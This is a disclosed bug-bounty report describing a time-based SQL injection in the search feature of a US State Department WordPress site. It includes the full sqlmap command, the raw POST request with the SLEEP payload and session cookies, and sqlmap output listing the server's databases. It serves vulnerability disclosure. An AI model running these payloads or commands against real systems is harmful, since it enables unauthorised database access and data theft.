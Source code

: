 # Time Based SQL Injection

## Report Details
- **Report ID**: 1878584
- **URL**: https://hackerone.com/reports/1878584
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2023-02-18T18:25:48.344Z
- **Disclosed**: 2023-04-20T17:56:14.942Z

## Reporter
- **Username**: shadow-krd
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: us-department-of-state

## Vulnerability Information
Hello and greetings and respect to you, dear friends
We all know that the sql injection bug is very dangerous, so this bug should be eliminated as soon as possible.
I've identified an SQL injection vulnerability of  type  Time Based on https://diplomaticrooms.state.gov this site use wordpress  cms but its not plugin sql injection 
Below, we see how we found this vulnerability 
If you look carefully, we see that search in the website name Search results The gap has occurred there
as you can see POST Method  [POST https://diplomaticrooms.state.gov/?s=porcelain,%20gilt ]
now it's time to inject or generate POC with lovely tool sqlmap 
We used a text file here by Name request.txt
and this is our command in sqlmap you can use this command for your own confidence

python3 sqlmap.py -r  request --batch --random-agent --tamper=space2comment  --level=5 --risk=3 --drop-set-cookie --threads 10  --dbs
===========================================================================================
POST https://diplomaticrooms.state.gov/?s=porcelain,%20gilt HTTP/1.1
Host: diplomaticrooms.state.gov
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:105.0) Gecko/20100101 Firefox/105.0
Pragma: no-cache
Cache-Control: no-cache
Content-Type: application/x-www-form-urlencoded
Referer: https://diplomaticrooms.state.gov/?s=porcelain,%20gilt
Content-Length: 133
Cookie: AWSALB=Bcs9ZrXwIhoRbHdfPbZAnVhkYJt9OJslAaUUgh5cOw9FMhg/43C2umhc4fQe7PtAorAHMSdr2dNw0asilWMYXjaFigXJhQJ2lxs05WQbpeI/cYRSGXLyo4E+hiQ1; AWSALBCORS=Bcs9ZrXwIhoRbHdfPbZAnVhkYJt9OJslAaUUgh5cOw9FMhg/43C2umhc4fQe7PtAorAHMSdr2dNw0asilWMYXjaFigXJhQJ2lxs05WQbpeI/cYRSGXLyo4E+hiQ1
Connection: Close
search=porcelain%2C+gilt%27+AND+%28SELECT+*+FROM+%28SELECT%28SLEEP%285%29%29%29Xeps%29+AND+%27HlBp%27%3D%27HlBp&post_types%5B%5D=post
======================================================================================
 python3 sqlmap.py -r  request --batch --random-agent --tamper=space2comment  --level=5 --risk=3 --drop-set-cookie --threads 10  --dbs
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.7.1.5#dev}
|_ -| . ["]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 12:21:06 /2023-02-17/

[12:21:06] [INFO] parsing HTTP request from 'request'
[12:21:06] [INFO] loading tamper module 'space2comment'
[12:21:06] [INFO] fetched random HTTP User-Agent header value 'Mozilla/5.0 (X11; U; Linux i686; de; rv:1.9b5) Gecko/2008041514 Firefox/3.0b5' from file '/home/ubuntu/sqlmap/data/txt/user-agents.txt'
custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] Y
[12:21:06] [INFO] resuming back-end DBMS 'mysql'
[12:21:06] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: search=porcelain, gilt' AND (SELECT -9789) OR 6323=6323# FROM (SELECT(SLEEP(5)))Xeps) AND 'HlBp'='HlBp&post_types[]=post
---
[12:21:07] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[12:21:07] [INFO] the back-end DBMS is MySQL
web application technology: Apache, PHP 7.4.16
back-end DBMS: MySQL 5 (MariaDB fork)
[12:21:07] [INFO] fetching database names
[12:21:07] [INFO] fetching number of databases
[12:21:14] [WARNING] reflective value(s) found and filtering out
[12:21:14] [INFO] resumed: 6
[12:21:14] [INFO] retrieving the length of query output
[12:21:14] [INFO] retrieved: 18
[12:22:32] [INFO] retrieved: information_schema
[12:22:32] [INFO] retrieving the length of query output
[12:22:32] [INFO] retrieved: 5
[12:23:01] [INFO] retrieved: mysql
[12:23:01] [INFO] retrieving the length of query output
[12:23:01] [INFO] retrieved: 3
[12:23:39] [INFO] retrieved: tmp
[12:23:39] [INFO] retrieving the length of query output
[12:23:39] [INFO] retrieved: 6
[12:24:16] [INFO] retrieved: innodb
[12:24:16] [INFO] retrieving the length of query output
[12:24:16] [INFO] retrieved: 18
[12:25:33] [INFO] retrieved: performance_schema
[12:25:33] [INFO] retrieving the length of query output
[12:25:33] [INFO] retrieved: 8
[12:26:15] [INFO] retrieved: pantheon
available databases [6]:
[*] information_schema
[*] innodb
[*] mysql
[*] pantheon
[*] performance_schema
[*] tmp

Notice:
I didn't extracted any data from the database, but just for generate POC

## Impact

the hackers can be dump all information like all database tables then after that login to the website

available databases [6]:
[*] information_schema
[*] innodb
[*] mysql
[*] pantheon
[*] performance_schema
[*] tmp

## Attachments
- photo_2023-02-18_20-20-40.jpg
